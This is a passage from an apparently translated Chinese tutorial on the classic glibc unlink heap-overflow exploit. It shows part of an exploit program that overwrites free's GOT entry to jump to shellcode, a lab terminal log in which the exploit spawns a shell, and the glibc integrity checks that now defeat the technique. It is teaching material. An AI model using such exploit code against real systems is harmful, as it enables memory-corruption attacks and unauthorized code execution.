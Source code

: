 ```
        would do + 12 (FD->bk). This helps to overwrite the GOT entry of free with the address we have overwritten in 
        second chunk's bk field (see below) */
        *( (void **)p ) = (void *)( FUNCTION_POINTER - 12 );
        p += 4;
        /* the bk field of the second chunk. It should point to shell code address.*/
        *( (void **)p ) = (void *)( CODE_ADDRESS );
        p += 4;
        /* the terminating NUL character */
        *p = '';

        /* the execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```

执行上述程序会派生新的 shell。

```
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$
```

保护：现在，unlink 技巧不起作用了，因为 glibc malloc 在近几年变得更可靠。添加下面的检查来放置使用 unlink 技巧的堆溢出。

*   二次释放：释放一个已经在空闲列表的块是不允许的。当攻击者使用 -4 覆盖第二个块时，它的`PREV_INUSE`为没有设置，这意味着`first`已经是空闲状态了。因此 glibc malloc 会抛出二次释放错误。

    ```
    if (__glibc_unlikely (!prev_inuse(nextchunk)))
    {
        errstr = "double free or corruption (!prev)";
        goto errout; 
    ```

*   下一个块大小无效：下一个块的大小应该在 8 到 arena 的全部系统内存之间。当攻击者将`second`块的大小赋为 -4 时，glibc malloc 就会抛出下一个块大小无效的错误。

    ```
    if (__builtin_expect (nextchunk->size <= 2 * SIZE_SZ, 0)
        || __builtin_expect (nextsize >= av->system_mem, 0))
    {
        errstr = "free(): invalid next size (normal)";
        goto errout;
    }
    ```
